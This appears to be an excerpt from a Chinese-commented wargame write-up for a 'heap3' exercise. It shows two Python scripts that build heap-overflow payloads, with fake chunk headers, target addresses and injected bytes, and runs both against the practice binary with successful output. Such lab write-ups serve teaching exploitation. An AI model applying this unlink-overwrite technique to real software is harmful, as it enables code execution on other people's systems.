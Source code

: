 ```shell
# 利用a的堆溢出
$ cat heap3_a.py
a = "A" * 4
a += "\x68\x64\x88\x04\x08\xc3"
a += "A" * 22
a += "\xf8\xff\xff\xff"
a += "\xfc\xff\xff\xff"

b = "A" * 8
b += "\x1c\xb1\x04\x08"
b += "\x0c\xc0\x04\x08"

c = "C" * 4

print a + " " + b + " " + c
$ ./heap3 `python heap3_a.py`
that wasn't too bad now, was it? @ 1711920093
```

<img src=".\heap3-result-1.png" style="zoom:67%;" />



```shell
# 利用b的堆溢出
$ cat heap3_b.py
a = "A" * 4
a += "\x68\x64\x88\x04\x08\xc3"

b = "A" * 32
b += "\xf8\xff\xff\xff"
b += "\xfc\xff\xff\xff"
b += "B" * 8
b += "\x1c\xb1\x04\x08"
b += "\x0c\xc0\x04\x08"

c = "C" * 4

print a + " " + b + " " + c
$ ./heap3 `python heap3_b.py`
that wasn't too bad now, was it? @ 1711920372
```
